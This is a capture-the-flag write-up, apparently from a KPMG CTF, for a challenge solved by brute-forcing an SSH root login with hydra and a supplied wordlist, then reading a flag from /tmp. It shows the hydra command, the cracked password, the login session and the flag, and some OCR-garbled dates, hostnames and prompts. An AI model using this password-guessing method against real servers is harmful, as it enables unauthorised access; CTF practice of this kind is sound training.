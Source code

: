 ## Task :
Rumors have circulated among the hacking community that inside the facility lies a powerful flag, the ultimate prize that grants the possessor unprecedented control over cyberspace. This flag is said to hold the key to accessing top-secret government networks, unlocking untold secrets, and potentially altering the course of history. The flag is rumored to reside possibly within the temporary folder.

Note: Be Careful to not get detected if bruteforcing.

## Points : 150

## Solution:

This challenge gives us a domain and port to connect to. When we connect to it, we can see it has a ssh server running. This server requires a username and password. We are also given a wordlist. The title also hint to using `hydra` for bruteforcing.

```sh
[ssk@arch kic]$ hydra -s 13117 -l root -P wordlist.txt 0.cloud.chals.io ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these  *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-87-30 16:37:17

[DATA] max 4 tasks per 1 server, overall 4 tasks, 20 login tries (l:1/p:20), ~5 tries per task
[DATA] attacking ssh://0.cloud.chals.io:13117/

[13117][ssh] host: 0.cloud.chals.io login: root password: iloveyou

1 of 1 target successfully completed, 1 valid password found

Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-87-30 1
```
`hydra` is successfully able to find the password `iloveyou` that we can use to ssh into the server.
```sh
[ssk@arch kic]$ ssh root@e.cloud.chals.io -p 13117
'root@0.cloud.chals.io's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.4.0-155-generic x86_64)

* Documentation: https://help.ubuntu.com
* Management: https: //landscape.canonical.com
* Support: https: //ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
rootEBE9Db14B12458: ~# ls
root@8E9b14B12458:~# cd /tmp
rootE8e9b14812458:/tmp# ls
flag. txt
root@809b14812458:/tmp# cat flag.txt
KPMG_CTF{eb9d31640af3509257a8d36758bc95da}
```